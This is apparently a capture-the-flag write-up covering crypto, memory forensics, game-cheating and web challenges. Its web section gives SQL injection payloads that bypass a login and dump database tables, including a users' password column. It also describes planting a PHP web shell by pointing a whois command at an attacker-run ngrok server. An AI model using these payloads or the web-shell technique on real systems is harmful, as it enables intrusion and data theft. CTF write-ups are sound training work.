

## [Cryptography]

## Shuffling


### Solution  
---
```python
import random
import time

# Original permutation
P = [15, 6, 19, 20, 28, 11, 27, 16, 0, 14, 22, 25, 4, 17, 30, 9, 1, 7, 23, 13, 31, 26, 2, 8, 18, 12, 29, 5, 21, 10, 3, 24]

# Create inverse permutation for unshuffling
def create_inverse_permutation(P):
    inverse_P = [0] * len(P)
    for i, p in enumerate(P):
        inverse_P[p] = i
    return inverse_P

def unshuffle(shuffled_list, inverse_P):
    unshuffled = [0] * len(shuffled_list)
    for i in range(len(shuffled_list)):
        unshuffled[inverse_P[i]] = shuffled_list[i]
    return unshuffled

def decrypt(ciphertext_hex):
    # Convert hex string to bytes
    ct = bytes.fromhex(ciphertext_hex)
    
    # Create inverse permutation for unshuffling
    inverse_P = create_inverse_permutation(P)
    
    # Since we know the encryption steps:
    # 1. Set random seed to sum of shuffled values
    # 2. Generate key and XOR
    
    # We need to find the sum of shuffled values to get the key
    # We'll try a range of possible sums that would be reasonable for ASCII text
    for potential_sum in range(2000, 4000):
        random.seed(potential_sum)
        key = random.randbytes(len(ct))
        
        # XOR the ciphertext with the key to get shuffled values
        shuffled = [c ^ k for c, k in zip(ct, key)]
        
        # Check if the sum of these values matches our potential sum
        if sum(shuffled) == potential_sum:
            # We found the correct sum! Now unshuffle
            unshuffled = unshuffle(shuffled, inverse_P)
            
            # Convert to a string, stopping at padding
            flag = ""
            for val in unshuffled:
                if 32 <= val <= 126:  # Printable ASCII
                    flag += chr(val)
                else:
                    # We've likely reached the padding
                    break
            
            # Check if it looks like a flag
            if "UVT{" in flag and "}" in flag:
                start = flag.find("UVT{")
                end = flag.find("}", start) + 1
                return flag[start:end]
    
    return "Decryption failed. The ciphertext might be corrupted or the algorithm might have changed."

# Decrypt the ciphertext
ciphertext = "50d553c657e8deff8e103dffa796f8c80f16e6113aa39b025d5690d0771ebf88"
print(decrypt(ciphertext))
```

### Final Result
---
  
**Flag:** `UVT{1_l1ke_t0_m0v3_1t_m0v3_i7}`


## [Forensics]

## RAMblings of Cornelia  
  

### Goals
---
Get familiar with the dumpfiles feature in memory forensics

### Solution  
---
1. Use MemprocFS or Volatility3 to perform a filescan to obtain the file address inside processes.  
` windows.filescan.Filescan`
2. Search for evidences related to "SAWAT"
  
3. Dumpfiles company-intel.7z, and kind-reminder.txt
4. Extract the 7zip compressed folder, with the password given in kind-reminder.txt  

### Final Result
---
  
**Flag:** `UVT{C0rn3l1a_dUmPs_tH3_r4W_tRutH}`


## Dark Web Stories  
  

### Goals
---
1. Capture the network packets using WireShark.
2. Understand how MD5 hashing decryption works.
3. Perform a Steganography Analysis to retrieve the flag.

### Solution  
---
1. Export all the HTTP Packets from WireShark
2. Extract MD5 hashes hidden accross the packets
```
5dbc98dcc983a70728bd082d1a47546e
f72c915d8f575a5c0999b5f37b6d99b7
a20bba554bfa1580a9d4aa2b6879ed46
02beeea47ee3cfe212e6bd843b9ce7d3
3112c7a8b6cd1677db0e3173e140fc05
50f4646135205fd4a5417e460cf71d3c
eb22cfa0890a2df3177966854a7176bc
845f49aa19c955b849d57593bf09d224
87f63931da79aa969ac4a776ce6cfb03
9793d9d6041c80f46ad7c1f530c8bbf8
2f88d89a8f50426a6285449be3286708
61bd22f017588208a0cacdf9a1a7ca1e
a7623c8b76316e10538782371b709415
c6cca42180caba17e9e6882dc66cc6ee
7c854900e46ebc5ee5680032b3e334de
ac81882b848b7673d73777ca22908c0d
4ce97d67963edca55cdd21d46a68f5bb
4abb62a00bccb775321f2720f2c7750b
67e00e8ef738fe75afdb42b22e50371e
b561052e5697ee5f1491b5e350fb78e1
```
3. Decrypt the MD5 hashes by running the script below
```python
#!/usr/bin/env python3
import hashlib
import string

def calculate_md5(text):
    """Calculate MD5 hash of given text"""
    return hashlib.md5(text.encode()).hexdigest()

def main():
    # Read the MD5 hashes from the file
    with open('md5_hashes.txt', 'r') as f:
        hashes = [line.strip() for line in f.readlines()]
    
    # Known pattern starting with "S", "Su", "Sup", "Sup3"
    current_text = ""
    
    # Set of possible characters to try
    possible_chars = string.ascii_letters + string.digits + string.punctuation + " "
    
    # For each hash in the file
    for i, target_hash in enumerate(hashes):
        found = False
        
        # Try appending each possible character and check if hash matches
        for char in possible_chars:
            test_text = current_text + char
            test_hash = calculate_md5(test_text)
            
            if test_hash == target_hash:
                current_text = test_text
                print(f"Line {i+1}: {current_text} -> {target_hash}")
                found = True
                break
        
        if not found:
            print(f"Failed to find match for hash at line {i+1}: {target_hash}")
            break
    
    print("\nFinal decrypted message:", current_text)

if __name__ == "__main__":
    main()
```
4. Obtain the password
```
Line 1: S -> 5dbc98dcc983a70728bd082d1a47546e
Line 2: Su -> f72c915d8f575a5c0999b5f37b6d99b7
Line 3: Sup -> a20bba554bfa1580a9d4aa2b6879ed46
Line 4: Sup3 -> 02beeea47ee3cfe212e6bd843b9ce7d3
Line 5: Sup3r -> 3112c7a8b6cd1677db0e3173e140fc05
Line 6: Sup3r$ -> 50f4646135205fd4a5417e460cf71d3c
Line 7: Sup3r$3 -> eb22cfa0890a2df3177966854a7176bc
Line 8: Sup3r$3c -> 845f49aa19c955b849d57593bf09d224
Line 9: Sup3r$3cr -> 87f63931da79aa969ac4a776ce6cfb03
Line 10: Sup3r$3cre -> 9793d9d6041c80f46ad7c1f530c8bbf8
Line 11: Sup3r$3cre7 -> 2f88d89a8f50426a6285449be3286708
Line 12: Sup3r$3cre7P -> 61bd22f017588208a0cacdf9a1a7ca1e
Line 13: Sup3r$3cre7P4 -> a7623c8b76316e10538782371b709415
Line 14: Sup3r$3cre7P4$ -> c6cca42180caba17e9e6882dc66cc6ee
Line 15: Sup3r$3cre7P4$S -> 7c854900e46ebc5ee5680032b3e334de
Line 16: Sup3r$3cre7P4$Sw -> ac81882b848b7673d73777ca22908c0d
Line 17: Sup3r$3cre7P4$Sw0 -> 4ce97d67963edca55cdd21d46a68f5bb
Line 18: Sup3r$3cre7P4$Sw0r -> 4abb62a00bccb775321f2720f2c7750b
Line 19: Sup3r$3cre7P4$Sw0rd -> 67e00e8ef738fe75afdb42b22e50371e
Line 20: Sup3r$3cre7P4$Sw0rd! -> b561052e5697ee5f1491b5e350fb78e1

Final decrypted message: Sup3r$3cre7P4$Sw0rd!
```

5. Unzip the `secretdata.zip` with the password obtained
6. Obtain `hacker.png`

7. Perform steganalysis on the image

### Final Result
---
ZSteg yields the flag  

**Flag:** `UVT{4_l0T_0f_lay3r5_70_unc0v3r_1nn1t?}`

## [Miscellaneous]

### Insert Coin to Play - Part 1


### Goals
---
1. Explore the game and understand how it works
2. Find out ways to bypass the scoring system of the game.

### Solution
1. Open the game and play it. The game is a simple 2D game where you need to catch the falling coins.
2. The game has a scoring system where you need to catch the coins to score points. However, there wont have enough coins to win the game.

3. With the use of Cheat Engine, we can find the memory address of the score and edit it to a higher value.

4. In here I change it to 20 value so it is high enough to win the game.
5. After that, catch the last coin and I can win the game and get the flag.

### Final Result
---

**Flag:** `UVT{Wh4t?!_D1d_Y0u_r3aLly_c4TcH_1t?}`

### Insert Coin to Play - Part 2  


### Goals
---
1. Explore how the game scoring system works
2. Use Cheat Engine to edit the scoring mechanism

### Solution  
---
1. Using dnSpy, we analyse the decompiled C# code, diving into the AddScore() function
 
2. From the logic, we find out that we need to use Cheat Engine to increment 27 manually to the original score in order to call the win function.
3. Track the corresponding scoring value with Cheat Engine and edit it.
  

### Final Result
---
  
**Flag:** `UVT{Wh4t?!_D1d_Y0u_r3aLly_c4TcH_1t?}`

## [Web]

### Error=300


### Goals
---
1. Understand how the web application works
2. Find the flag in the web application
3. Understand how the web application is vulnerable to SQL Injection
4. Use SQL Injection to bypass the login system and get the flag

### Solution
1. The web application is a simple login system where you need to enter your username and password to log in.

2. We can find out that the web login page is vulnerable to SQL Injection. We can use the following payload to bypass the login system:
``` 'or 1=1-- ```
3. After that, we can see there is another page that we need to access the sql database to get the flag.
4. We can use the following SQL query to test the blind sql injection:
- Test the length of the column name (test and error by adding NULL values):
```sql
' UNION SELECT NULL,NULL,NULL,NULL -- -
```

- After that, we need to find the name of the database using the following query:
```sql 
` UNION SELECT NULL,NULL,NULL,schema_name FROM information_schema.schemata -- -
```

- After that, we can find the name of the table name from that database using the following query:
```sql
' UNION SELECT NULL,NULL,NULL,table_name FROM information_schema.tables WHERE table_schema = 'sqli_challenge' -- -
```

- After that, we can find the name of the column name from that table using the following query:
```sql
' UNION SELECT NULL,NULL,NULL,column_name FROM information_schema.columns WHERE table_schema = 'sqli_challenge' -- -
```
 
- After that, we can find the flag using the following query:
```sql 
' UNION SELECT NULL,flag,NULL,NULL FROM sqli_challenge.secrets-- -
```


5. Repeat the process for the second flag using the same method as above.
and we will get the second flag.
```sql
' UNION SELECT NULL,NULL,NULL,table_name FROM information_schema.tables WHERE table_schema = 'password_reset' -- -
```
```sql
' UNION SELECT NULL,NULL,NULL,column_name FROM information_schema.columns WHERE table_schema = 'password_reset' -- -
```
```sql
' UNION SELECT NULL,NULL,NULL,password FROM password_reset.users-- -
```


6. After that combine the two flags together to get the final flag.

### Final Result
**Flag:** `UVT{Th3_sy5t3M_7ru5Ts_1tS_oWn_9r4Mmar_..._S0_5tR1ng5_4r3_m0r3_tHaN_qu3r13s_1n_th3_3nd}`

### Domain info


### Goals
---
1. Analyze a PHP web application for security vulnerabilities
2. Exploit command injection to read the flag
3. Bypass security filters using creative techniques

### Solution
1. First, I analyzed the PHP code in the web application which allows users to execute whois commands:
```php
<?php
$command = "whois -h " . $host . " -p " . $port . " " . $query . " > " . escapeshellarg($savepath);
system($command);
```
2. The application had security measures in place:
- It filters out common command injection characters like **;**,**&**,**|**,**$**, **(**, **)**, **< & > **
- It validates the host is a valid IP or domain
- It uses escapeshellarg() on some parameters
```    // Basic anti-command injection filters
    foreach ([$host, $port, $query, $savefile] as $input) {
        if (preg_match('/[;&|`$()<>]/', $input)) {
            die("<p style='color:red;'>❌ Command Injection Detected!</p>");
        }
    }
```

3. Setting up a local server to receive the whois command output:
```bash
import socket

HOST = '0.0.0.0'   # Listen on all interfaces
PORT = 1234         # Local port to run the server

# PHP code to read the flag
php_payload = '<?php echo file_get_contents("/flag.txt"); ?>'

# Start the server
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.bind((HOST, PORT))
    s.listen()
    print(f"Listening on {PORT}...")
    while True:
        conn, addr = s.accept()
        with conn:
            # Send the PHP payload immediately
            conn.sendall(php_payload.encode())
            print("Payload sent to:", addr)
```
4. I used ngrok to expose my local server to the internet:
```bash
ngrok tcp 1234
```
5. I submitted the form with these values:
```plaintext
host
0.tcp.ap.ngrok.io

port
10965 *ngrok forwarding port will be given by ngrok

query
testing *this will be the query object anything will do

filename
shell.php 
```
6. This caused the server to execute the whois command and connect to my Python server:


7. This payload was saved as a PHP file in the uploads directory, which I could then access to execute the code and view the flag by just pressing Click here to view your file.


### Final Result
---

**Flag:** `UVT{M4l1c10us_Wh0_1s_C0mmand_4nd_upl0ad}`

## [Android]

